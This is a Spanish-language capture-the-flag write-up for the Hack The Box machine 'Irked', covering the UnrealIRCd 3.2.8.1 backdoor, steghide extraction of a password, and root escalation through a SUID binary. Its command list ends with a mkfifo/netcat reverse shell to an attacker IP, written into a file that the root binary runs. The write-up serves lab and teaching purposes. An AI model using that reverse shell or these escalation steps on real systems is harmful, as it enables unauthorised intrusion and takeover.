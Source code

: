 Irked es un box media tirando a fácil cuenta con temas de explotación de vulnerabilidades, estenografía a imágenes JPG y explotación de binarios para escalar privilegios. Al escanear la máquina encontramos el puerto 6697 abierto y también un dominó, buscando en internet se encuentra que es posible sacar la versión del servicio que corre en ese puerto, que es Unreal 3.2.8.1. Buscamos un exploit que no utilice metasploit en github y obtenemos acceso al pc. Enumerando encontramos que el flag está dentro del user djmarov al cual no tenemos acceso, pero dentro del directorio documents de manera oculta detectamos un archivo llamado backup que contiene un posible password, dentro nos da una pista que dice steg de la herramienta steghide la cual sirve para extraer archivos o información de imágenes JPG que se guardan o se ocultan en un archivo (estenografía). En este caso guardaba un archivo llamado pass.txt con una credencial que nos permite acceder por medio de ssh, enumeramos el equipo y encontramos un binario que se ejecuta como root llamado viewuser el cual guarda su output en un archivo ubicado en /tmp/listuser, al ejecutar detectamos que no existe, se crea este archivo y se añade una reverse Shell obteniendo acceso al usuario root.




Habilidades:
Explotacion Unreal 3.2.8.1
Estaganografia jpg steghide
binario viewuser

Comandos utilizados:
sudo nmap -Pn -sU --top-ports 500 10.10.10.117
nc 10.10.10.117 6697
USER master 0 * master
Nick master
steghide extract -sf irked.jpg -p UPupDOWNdownLRlrBAbaSSss
find / -perm -4000 2>/dev/null
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 1234 >/tmp/f" > /tmp/listusers